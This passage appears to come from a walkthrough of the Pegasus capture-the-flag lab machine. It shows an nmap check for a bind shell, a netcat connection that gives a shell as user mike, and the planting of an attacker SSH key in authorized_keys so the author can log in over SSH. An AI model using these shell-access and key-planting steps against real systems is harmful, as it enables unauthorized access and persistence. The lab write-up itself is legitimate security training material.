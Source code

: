 All of my attempts were followed by a nmap on `tcp/4444` to see if the shell has become available. After submitting the above code, we got a new port open (this Mike guy is pretty fast you should hire him!):

```bash
root@kali:~# nmap 192.168.56.101 -p 4444

Starting Nmap 6.47 ( http://nmap.org ) at 2014-12-23 11:33 SAST
Nmap scan report for 192.168.56.101
Host is up (0.00034s latency).
PORT     STATE SERVICE
4444/tcp open  krb524
MAC Address: 08:00:27:88:F8:40 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```

Awesome, so lets connect and see what we have:

```bash
root@kali:~# nc -v 192.168.56.101 4444
192.168.56.101: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [192.168.56.101] 4444 (?) open
ppid=10450
id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

As was hoped for, a shell as `mike`. I quickly generated a new ssh key pair for Pegasus, and cat the public key to `mike`'s `authorized_keys` file and went on to SSH in as mike:

```bash
# first I cat the public key so that I can copy it
root@kali:~# cat pegasus.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDNmUef7CT1sDk5YxLor/LVA9FHii/Aagxl86CtRNj24t+TA23K3/KwlfCabCRNwNBXbTWkUmYdNMAEvsv5nbPHhgqZRlmEBzltcmltatmfbhrGmND7cBQGOxZPlcsks0FThEJhNL5z5WS3PpyzA5GUKyn4cPFbXe88uz1SpeXaIC+8kJ5T+jOKu40nLF0iglBtiADQ1rOLMh2pFEZjQhVyE4ieqK7hyBrLlVyQY1bOUGdrguWcEJZUvWDRsa0VCOIXOdNeg3AsXPG/1KbIzubOfjieaTgs9Mhqg7C9vdL21dia48B5NRKl7GoS6xJx09tmXVvYMAt+Sut6OwBUTV+R root@kali

# next I connect to the bind shell listener and move to Mikes .shh directory
root@kali:~# nc -v 192.168.56.101 4444
192.168.56.101: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [192.168.56.101] 4444 (?) open
ppid=10450
cd .ssh

# next we append my public key to mikes authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDNmUef7CT1sDk5YxLor/LVA9FHii/Aagxl86CtRNj24t+TA23K3/KwlfCabCRNwNBXbTWkUmYdNMAEvsv5nbPHhgqZRlmEBzltcmltatmfbhrGmND7cBQGOxZPlcsks0FThEJhNL5z5WS3PpyzA5GUKyn4cPFbXe88uz1SpeXaIC+8kJ5T+jOKu40nLF0iglBtiADQ1rOLMh2pFEZjQhVyE4ieqK7hyBrLlVyQY1bOUGdrguWcEJZUvWDRsa0VCOIXOdNeg3AsXPG/1KbIzubOfjieaTgs9Mhqg7C9vdL21dia48B5NRKl7GoS6xJx09tmXVvYMAt+Sut6OwBUTV+R" >> authorized_keys
ls -lh
total 12K
-rw-rw-r-- 1 mike mike  381 Dec 23 20:36 authorized_keys
-rw------- 1 mike mike 1.7K Nov 18 12:39 id_rsa
-rw-r--r-- 1 mike mike  222 Nov 18 17:39 known_hosts
chmod 600 authorized_keys
^C

# with the authorized_keys ready, I SSH in as mike using my key pair
root@kali:~# ssh mike@192.168.56.101 -i pegasus
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-39-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Dec 23 20:36:47 AEDT 2014
```